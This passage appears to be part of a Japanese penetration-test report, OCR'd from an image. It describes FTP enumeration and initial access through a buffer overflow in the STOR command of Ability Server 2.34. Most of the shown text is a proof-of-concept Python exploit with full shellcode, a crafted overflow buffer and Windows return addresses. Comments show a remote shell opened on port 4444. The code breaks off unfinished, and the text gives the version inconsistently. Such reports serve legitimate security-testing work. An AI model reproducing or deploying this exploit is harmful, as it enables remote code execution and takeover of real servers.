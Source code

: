 FTP列挙   
利用可能なFTPサービスを手動で列挙したところ、そのサービスが古いバージョン2.3.4を実行しており、リモートバッファオーバーフローの脆弱性があることに気づきました。   

#### 4.1.2 初期アクセス - バッファオーバーフロー    

***脆弱性の説明***：Ability Server 2.34 には、STOR フィールドにバッファオーバーフローの脆弱性が存在します。攻撃者はこの脆弱性を利用して、リモートで任意のコードを実行させ、システムを完全に制御することが可能です。   
***脆弱性の修正***：Ability Serverの発行元は、この既知の問題を修正するパッチを発行しました。このパッチは、http://www.code-crafters.com/abilityserver/ にあります。   
***深刻度***:<span style="color:red;">致命的</span>    
***攻撃を再現するための手順***：オペレーティングシステムが、既知の公開エクスプロイトと異なっていた。コード実行を成功させるためには、書き換えたエクスプロイトが必要でした。エクスプロイトを書き換えた後、標的型攻撃を行い、Johnがシステムに対する完全な管理者権限を持つようにしました。    
**Proof of Conceptコード**：既存のエクスプロイトの修正箇所を赤色でハイライトしています。    
```
###################################
# Ability Server 2.34 FTP STOR Buffer Overflow   
# Advanced, secure and easy to use FTP Server. 
# 21 Oct 2004 - muts                                      
###################################
# D:\BO>ability-2.34-ftp-stor.py                       
###################################
# D:\data\tools>nc -v 127.0.0.1 4444               
# localhost [127.0.0.1] 4444 (?) open               
# Microsoft Windows XP [Version 5.1.2600]        
# (C) Copyright 1985-2001 Microsoft Corp.        
# D:\Program Files\abilitywebserver>                
###################################

import ftplib
from ftplib import FTP
import struct
print "\n\n################################"
print "\nAbility Server 2.34 FTP STOR buffer Overflow"
print "\nFor Educational Purposes Only!\n" 
print "###################################"

# Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

sc = "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc += "\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc += "\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc += "\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc += "\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc += "\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc += "\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc += "\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc += "\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc += "\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc += "\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc += "\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc += "\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc += "\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc += "\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc += "\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc += "\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
# Change RET address if need be.
buffer = '\x41'*966+struct.pack('<L', 0x7C2FA0F7)+'\x42'*32+sc # RET Windows 2000 Server SP4
#buffer = '\x41'*970+struct.pack('<L', 0x7D17D737)+'\x42'*32+sc # RET Windows XP SP2
try:
```